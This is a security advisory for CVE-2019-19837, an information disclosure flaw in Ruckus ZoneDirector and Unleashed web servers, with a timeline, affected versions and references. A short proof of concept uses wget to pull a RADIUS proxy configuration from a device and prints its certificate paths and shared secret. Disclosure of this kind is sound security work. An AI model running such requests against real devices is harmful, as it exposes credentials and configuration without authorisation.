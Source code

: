 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2019-09-19'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2019-12-24'
      url: 'https://support.ruckuswireless.com/security_bulletins/299'
    - type: 'cve-assign'
      date: '2019-12-17'
    - type: 'release'
      date: '2019-12-31'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'



severity: 'Medium'
alephid: ALEPH-2019007
cve: CVE-2019-19837
date: '2019-12-17'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - txt'
      url: 'https://www.ruckuswireless.com/security/299/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - PDF'
      url: 'https://www.ruckuswireless.com/security/299/view/pdf'
  
title: 'Information disclosure vulnerability'

---
```

‘Embedthis-Appweb/3.4.2’ configuration file - `webs.conf`, lacks access control. An attacker can fetch any file from the /web directory, regardless of its file extension or type. `web` directory contains sensitive information such as backend code, executables, and symbolic links to `/tmp` directory.

## Proof Of Concept ##
Example of information leakage from `/web` directory
``` shell
➜  /tmp wget -q 192.168.0.1/uploaded/radsecproxy.conf
➜  /tmp file radsecproxy.conf 
radsecproxy.conf: ASCII text
➜  /tmp cat radsecproxy.conf 
ListenUDP               *:1815
PidFile                /var/run/tac/radsecproxy.pid
LogLevel                3
LogDestination          x-syslog:///LOG_LOCAL2
rewrite delSuffix {
    modifyAttribute 1:/^(.*)@(.*)$/\1/
}
tls default {
    CACertificatePath    /etc/airespider/certs/ca
    CACertificateFile    /etc/airespider/certs/cacert.pem
    CertificateFile    /etc/airespider/certs/webaccert.pem
    CertificateKeyFile    /etc/airespider/certs/webackey.pem
}
client 127.0.0.1 {
    type udp
    secret secret
}
client [::1] {
    type udp
    secret secret
}

```
